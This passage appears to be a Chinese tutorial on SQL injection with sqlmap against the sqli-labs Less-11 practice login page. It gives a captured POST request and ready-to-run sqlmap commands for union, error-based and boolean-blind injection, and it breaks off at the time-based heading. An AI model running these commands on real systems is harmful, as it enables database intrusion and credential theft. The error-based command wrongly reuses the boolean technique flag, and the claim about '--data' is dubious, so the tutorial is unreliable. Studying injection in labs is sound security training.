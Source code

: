 ### sqlmap

**加载目标**

可以直接将 Burpsuite 截取的数据包内容保持为文本格式 `test.txt`：

```http
POST /Less-11/ HTTP/1.1
Host: daishen.ltd:1112
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://daishen.ltd:1112/Less-11/
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Connection: close
Upgrade-Insecure-Requests: 1

uname=admin&passwd=2333&submit=Submit
```

然后直接使用 sqlmap 的 -r 参数来加载这个请求包：

```bash
sqlmap -r test.txt
```

也可以手动通过 `--data` 来对 POST 的数据包内容进行注入检测：

```bash
sqlmap -u "http://daishen.ltd:1112/Less-11/" --data="uname=admin&passwd=2333&submit=Submit"
```

实际上 `--data` 比较鸡肋，操作效率比较低，因为比较冷门，所有适合来炫耀自己会这个参数，这样对 sqlmap 不够了解的人 就会觉得很高大上。所以接下来都使用 `--data` 这个参数来进行注入 

**联合查询注入**

```bash
sqlmap -u "http://daishen.ltd:1112/Less-11/" --data="uname=admin&passwd=2333&submit=Submit" -p "uname" --dbms=MySQL --random-agent --flush-session --technique=U -v 3
```

**报错注入**

```bash
sqlmap -u "http://daishen.ltd:1112/Less-11/" --data="uname=admin&passwd=2333&submit=Submit" -p "uname" --dbms=MySQL --random-agent --flush-session --technique=B -v 3
```

**布尔盲注**

```bash
sqlmap -u "http://daishen.ltd:1112/Less-11/" --data="uname=admin&passwd=2333&submit=Submit" -p "uname" --dbms=MySQL --random-agent --flush-session --technique=B -v 3
```

**延时盲注**

